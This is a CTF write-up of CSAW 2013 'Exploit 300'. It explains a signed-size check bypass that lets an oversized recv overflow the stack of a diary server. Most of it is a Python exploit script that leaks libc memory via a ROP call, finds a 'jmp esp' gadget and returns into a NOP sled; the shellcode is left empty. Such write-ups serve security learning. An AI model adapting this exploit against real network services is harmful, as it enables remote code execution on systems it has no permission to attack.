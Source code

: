 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 300"
---
```


This challenge is a diary server listening on port 34266. When we first connect it prompt us to enter a password and an username. Both value are hardcoded in the application and can be retrieved through reverse engineering. Username is `csaw2013` and password is `S1mplePWD`.

Once we are logged we are prompt to enter a new entry into the diary. We first enter the size of the entry text message and then we enter the entry content.

The exploit is that the size we send first is then used by `recv` to read our entry into a fixed sized buffer of `0x400` bytes. Note that there is a check to see if the size we provided is below `0x400`, but giving a 2 bytes negative number such a `0xFFFF` would pass the test, but still read `0xFFFF` bytes of data, allowing us to smash the stack and overwrite the return adresse.

Since there were no `jmp esp` instruction in the program, I scanned the libc to find an adresse we could return to that would then jump on the shellcode in the buffer. The exploit script used is:
```
#!/usr/bin/env python

import socket
import sys
import struct
from struct import pack

host = '128.238.66.217'
port = 34266

shellcode = ''

user = 'csaw2013'
pwd = 'S1mplePWD'

def read_until(s, a):
  data = ''
  while data.find(a) == -1:
    data = s.recv(4096)

def connect_to_host():

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))

  read_until(s,'UserName')
  s.send(user)
  read_until(s,'Password')
  s.send(pwd)
  read_until(s,'Entry')
  s.send(str(0xFFFF))

  return s

ret_off = 0x420
def exploit(offset):

  s = connect_to_host()
  print 'connected'
  payload = ('\x55' * ret_off) + pack("I", offset) + '\x90'*32 + shellcode
  s.send(payload)
  print 'payload sent'
  s.close()

def leak(offset, size):

  s = connect_to_host()
  off_send = pack("I", 0x080488B0)

  payload = ('\x55' * ret_off) + off_send

  payload += pack('<I', 0x080487a0) # exit
  payload += pack('<I', 0x4) # fd
  payload += pack('<I', offset)
  payload += pack('<I', size) # len
  payload += pack('<I', 0x40) # flags

  payload += '\x90'*32 + shellcode

  s.send(payload)

  result = ''
  data = True

  while data:
    data = s.recv(1024)
    result += data
  s.close()

  return result

def find_jmp_esp():
  gots = leak(0x0804af80, 4)  # The offset of the got entries.
  print 'gots: %s' % repr(gots)

  libc_guess = struct.unpack('I', gots[:4])[0]
  print 'libc_guess: %s' % hex(libc_guess)

  buf_base = libc_guess - (libc_guess % 0x1000)

  buf = leak(buf_base, 4096)
  while buf:
    print hex(buf_base)
    jmp_esp = buf.find("\xff\xe4")  # jmp esp
    if jmp_esp != -1:
      return buf_base + jmp_esp
    else:
      buf_base += len(buf)
      buf = leak(buf_base, 4096)

  return 0

jmpesp_addr = find_jmp_esp()
print 'jmpesp_addr: ', hex(jmpesp_addr)
exploit(jmpesp_addr)
```
